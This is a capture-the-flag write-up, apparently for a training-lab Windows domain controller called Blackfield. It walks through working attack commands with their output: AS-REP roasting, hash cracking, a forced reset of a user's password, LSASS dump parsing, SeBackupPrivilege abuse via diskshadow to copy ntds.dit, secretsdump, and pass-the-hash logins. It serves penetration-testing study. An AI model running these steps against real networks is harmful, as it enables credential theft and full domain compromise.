

**Tags:** `Windows` `Active Directory` `Powershell` `Account Misconfiguration` `Kerberoasting` `File System Forensics`

## Summary:

- ASREPRoast (GetNPUsers)
- Cracking Kerberos hash
- Reset AD user password
- BloodHound
- pypykatz
- SeBackupPrivilege
- Diskshadow
- Secretsdump


## Recon

`nmap -p- -A -T4 $IP`

````
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-06-08 02:33:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=6/7%Time=5EDD4080%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

````

- Domain Controller present
- **Domain Name:** `BLACKFIELD.LOCAL`


## SMB

`smbclient -L \\\\$IP\\` (anonymous login)

````
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 

````

- Reading the **profile$** share
- The share had a bucnh of users.  I sniped a few peculiar users: `support` `audit2020` 

## AS-REP Roasting (User: support) tgt hash

- Checking this list of users for any that have the UF_DONT_REQUIRE_PREAUTH flag set to true

`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done`

**tgt hash:** 
````
$krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0

````

## Cracking hash

`sudo john <tgt_file> --wordlist=<password_list>`

- **Creds:** support / #00^BlackKnight

## Checking if support user is pwnable (win-rm access or not)

- Can I spawn an interactive shell? 

`crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'`

````
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\support:#00^BlackKnight "Failed to authenticate the user support with ntlm"

````

- Nope!


## Checking if I have read access to a share now

`smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'`

````
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
        
````

- I want access to the "forensic" share, but we will have to pivot to another user to check for this again


## Bloodhound 

- Since I got credentials for the user: support, I'm going to use **bloodhound-python** to send queries and grab domain data as json files

**The parameters for bloodhound-python:**

````
-c ALL - All collection methods
-u support -p #00^BlackKnight - Username and password to auth as
-d blackfield.local - domain name
-dc dc01.blackfield.local - DC name (it won’t let you use an IP here)
-ns 10.10.10.192 - use 10.10.10.192 as the DNS server

````

`bloodhound-python -u <user> -p <pass> -d <xxxxx.local> -ns $IP -c All`

- computers.json  domains.json  groups.json  users.json

## Analyzing the data 

**2 things I like to do before analyzing users:**

- Mark user: `support` as **owned** and **high-value target**
- The two users I want to analyze are `support` and `audit2020`



- We can change audit2020 password w/o knowing current password
- No interactive shell to change password using powershell so **Alternative:** rpcclient using `setuserinfo2`
- [Reset AD user password with linux:](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

`rpcclient $> setuserinfo2 audit2020 23 'Pass123!'`

## Checking if these creds are pwnable again

`crackmapexec smb 10.10.10.192 -u audit2020 -p 'Pass123!'`

- Nope!

## Checking to see if I finally have access to the forensic share

`smbmap -H 10.10.10.192 -u audit2020 -p 'Pass123!'`

````
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share

````

## Forensic share enumeration

````
smbclient -U audit2020 //10.10.10.192/forensic 'Pass123!'
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

````

- Peculiar directory: **memory_analysis**
- We find an file named lsass.zip which contains lsass.dmp from which we can dump hashes using **pypykatz**

`lsass.zip                           A 41936098  Thu May 28 16:25:08 2020`

- [Extracting lsass remotely](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows)

`pypykatz lsa minidump lsass.DMP`

````
Username: svc_backup                      
                Domain: BLACKFIELD   
                LM: NA                              
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c

````

## Authenticating as svc_backup (finally can spawn an interactive shell!!) evil-winrm

`evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d`

## Privesc 

- My first thought is to try: `whoami /priv` to check user privileges. `SeBackupPrivilege` is enabled (Dangerous!)
- **SeBackupPrivilege**: This privilege causes the system to grant all read access control to any file, regardless of the access control list (ACL) specified for the file.
- **Members of “Backup Operators” group:** Backup Operators is a default Windows group that is designed to backup and restore files on the computer using certain methods to read and write all (or most) files on the system.  `"diskshadow"` (this is the one we will use)

````
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

````

````
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /all

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

````

## Abusing Backup Operators Group

**From GitHub:** [Git](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)

WUT IS DIS ?: If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.


- Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow


**Shadow Copy Script:** (script.txt)

````
{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
}

````

- Executing the diskshadow script 

`diskshadow /s script.txt`

Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use this amazing repo:


- Importing both dlls from the repo using powershell

`Import-Module .\SeBackupPrivilegeCmdLets.dll`

`Import-Module .\SeBackupPrivilegeUtils.dll`

- Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
- I created a **temp** directory to throw these files into `mkdir temp`

`Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite`

- Dumping the SYSTEM hive as well (What is this?) 

A hive is a logical group of keys, subkeys, and values in the registry that has a set of supporting files loaded into memory when the operating system is started or a user logs in.  A user's hive contains specific registry information pertaining to the user's application settings, desktop, environment, network connections, and printers. 

`reg save HKLM\SYSTEM c:\temp\system.hive`

- win-rm allows us to simply download: `ntds.dit` and `system.hive` like so: `download ntds.dit` & `download system.hive`

## Dumping Hashes using "secretsdump.py"

`secretsdump.py -system system -ntds ntds.dit LOCAL`

**Hash:** `Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::`

## Spawning an interactive shell (evil-winrm)

````
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee

*Evil-WinRM* PS C:\Users\Administrator\Documents>

````
